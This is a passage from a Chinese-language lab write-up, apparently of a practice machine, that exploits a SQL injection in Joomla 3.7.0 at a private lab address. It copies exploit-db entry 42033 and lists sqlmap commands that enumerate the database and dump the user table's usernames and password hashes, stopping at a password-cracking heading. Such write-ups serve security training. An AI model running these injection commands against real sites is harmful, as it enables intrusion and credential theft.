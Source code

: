 ![12.png](https://s2.loli.net/2024/07/22/CHv4wZkOqYDMdV9.png)

扫描结果显示 joomla 3.7.0 可能存在**sql注入漏洞**和**xss漏洞**。利用path 给出的详细信息尝试对sql漏洞进行利用，因为它往往能帮助我们getshell。

```
find / -name 42033.txt

cp /usr/share/exploitdb/exploits/php/webapps/42033.txt /root/Desktop/
```

![13.png](https://s2.loli.net/2024/07/22/m9CEdKSDJ8lQbo6.png)



#### 3、漏洞利用

##### ①sql注入

![14.png](https://s2.loli.net/2024/07/22/WDJuo9qdZTNcXHK.png)

```
#查库
sqlmap -u "http://192.168.253.138/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]

#查表
sqlmap -u "http://192.168.253.138/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb --tables

#查列（当数据库名含有特殊符号时，需要用引号括起来）
sqlmap -u "http://192.168.253.138/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T '#__users' --columns

#列出用户表中的username和password字段信息(当数据库名含有特殊符号的时候，需要用引号包括起来)
sqlmap -u "http://192.168.253.138/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T'#__users' -C username,password --dump
```

![15.png](https://s2.loli.net/2024/07/22/3sjgVSUnf24FeDc.png)

![16.png](https://s2.loli.net/2024/07/22/H6MI1mjXWynoeJ7.png)

![17.png](https://s2.loli.net/2024/07/22/Phj5otMCs3DV4pG.png)

![18.png](https://s2.loli.net/2024/07/22/un1TmYaEJv7bwCc.png)

![19.png](https://s2.loli.net/2024/07/22/FE7kYZWr8IHl9xh.png)

观察到密码的格式是经过特殊加密处理的，没有加密函数只能爆破密码了。

##### ②密码爆破
